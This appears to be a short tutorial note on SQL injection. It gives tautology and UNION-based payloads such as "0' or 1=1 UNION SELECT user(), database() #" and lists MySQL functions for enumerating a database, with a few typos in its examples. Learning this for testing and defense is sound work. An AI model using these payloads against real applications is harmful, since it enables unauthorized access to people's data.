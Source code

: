 # SQL Injection

SQL Injection is where we can get more data or access to a database by modifying application logic and bypassing authentication. This can be achieved by modifying, inserting, or injecting crafted user input that provides more access than intended. 

A typical request might look like:
```sql
select * FROM users WHERE id='1';


UserID	Username	FirstName	LastName
12345	John	John	Red
```

SQL Injection then can could be the following:

```sql
SELECT * FROM Users WHERE id='1' or 1=1

UserID	Username	FirstName	LastName
12345	John	John	Red
20193	Sara1980	Sara	Lee
54920	Thomas12	Thomas	Green
```

### SQL Union

We can `UNION` two tables together with `SELECT * from Users UNION SELECT * from Administrators;`. 
This will select all records from USERS, and all records from Administrators. But what if they have mismatched columns? Then we can match just the select fields that are contained in both sets:
`SELECT username, password, userid from Users UNION SELECT username, password, userid from Administrators;`

How can we use this for exploitation?
We can enter a SQL statement like the following in a query field in a web application that executes SQL:

```sql
0' or 1=1 UNION SELECT null, version() #
```

In this case, we provide a `NULL` as a placeholder to not need to guess data types, and we simultaneously execute `version()`. The `#` is a delimiter.
```sql
# Return the current user and database 
0' or 1=1 UNION SELECT user(), database() #'

# Full query
SELECT first_name, last_name FROM users WHERE user_id = '0' or 1=1 UNNION SELECT user(), database() #;
```

We can get more details as needed with the following functions:
```sql
@@hostname : Current Hostname
@@tmpdir : Tept Directory
@@datadir : Data Directory
@@version : Version of DB
@@basedir : Base Directory
user() : Current User
database() : Current Database
version() : Version
schema() : current Database
UUID() : System UUID key
current_user() : Current User
```
